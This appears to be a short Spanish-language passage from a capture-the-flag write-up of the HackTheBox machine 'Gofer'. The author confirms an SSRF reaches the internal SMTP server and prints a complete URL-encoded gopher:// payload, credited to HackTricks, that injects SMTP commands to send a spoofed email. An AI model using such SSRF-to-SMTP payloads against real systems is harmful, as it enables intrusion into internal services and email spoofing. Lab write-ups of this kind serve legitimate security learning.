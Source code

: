 Leyendo este post de GitHub.
https://github.com/rhamaa/Web-Application-Attack/blob/master/other-vulnerability/service-side-request-forgery/ssrf-and-smtp.md

Después de un rato probando conseguí ver una respuesta del SMTP.
![Write-up Image](images/Screenshot_11.png)

Ahora que ya sabemos que esto funciona, podemos intentar mandar un correo.
Probando este payload de HackTricks.
![Write-up Image](images/Screenshot_12.png)

`gopher://gofer.htb:25/xHELO%20gofer.htb%250d%250aMAIL%20FROM%3A%3Cadmin@gofer.htb%3E%250d%250aRCPT%20TO%3A%3Cjhudson@gofer.htb%3E%250d%250aDATA%250d%250aFrom%3A%20%5BHacker%5D%20%3Chacker@site.com%3E%250d%250aTo%3A%20%3Cvictime@site.com%3E%250d%250aDate%3A%20Tue%2C%2015%20Sep%202017%2017%3A20%3A26%20-0400%250d%250aSubject%3A%20AH%20AH%20AH%250d%250a%250d%250aYou%20didn%27t%20say%20the%20magic%20word%20%21%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a`
